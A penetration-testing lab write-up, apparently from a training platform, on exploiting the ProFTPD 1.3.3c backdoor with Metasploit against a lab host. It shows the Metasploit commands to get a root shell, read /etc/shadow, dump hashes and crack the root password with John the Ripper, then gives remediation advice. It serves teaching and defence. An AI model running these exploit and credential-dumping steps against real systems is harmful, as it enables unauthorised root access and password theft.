# Password Cracker: Linux

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** demo.ine.local (192.119.60.3) — Unix, ProFTPD 1.3.3c<br>
**Attacker:** 192.119.60.2 (Kali)<br>
**Objective:** Run `auxiliary/analyze/crack_linux` against the target and recover the root password.

## 1. Executive Summary

The target runs **ProFTPD 1.3.3c**, which ships a known backdoor. Exploiting it yields a
root shell, which we upgrade to a Meterpreter session. The `hashdump` post module dumps the
`/etc/shadow` hashes into the MSF database, and the `crack_linux` auxiliary module (which
drives John the Ripper) cracks the root SHA-512 hash in seconds.

## 2. Recon

```bash
ping -c 4 demo.ine.local
nmap -sV 192.119.60.3
```



Only FTP is open — **ProFTPD 1.3.3c** on port 21.



## 3. Exploiting the ProFTPD Backdoor

Setting global variables and locating the module.



```bash
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
```





```bash
exploit
```

The backdoor returns a **root** command shell.



## 4. Upgrading to Meterpreter

Backgrounding the shell and upgrading it with `shell_to_meterpreter`.

```bash
background
sessions -u 1
sessions 2
```





## 5. Dumping Hashes

Reading `/etc/shadow` shows the root SHA-512 hash.

```bash
cat /etc/shadow
```



Using the `hashdump` post module to load the hashes into the database.

```bash
use post/linux/gather/hashdump
set SESSION 2
run
```



## 6. Cracking with crack_linux

```bash
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

John cracks the root hash in single mode.

```
Username: root   Cracked Password: password   (sha512crypt)
```



> **Flag (root password):** `password`

## 7. Remediation Recommendations

1. **Upgrade ProFTPD** off the backdoored 1.3.3c build and only install packages from
   trusted sources (verify checksums/signatures).
2. **Enforce strong password policies** — the root hash fell instantly to a dictionary.
3. **Use SHA-512 with a strong, unique password** and consider key-based access only.
4. **Restrict FTP exposure** and monitor for the backdoor's telltale `HELP` command pattern.
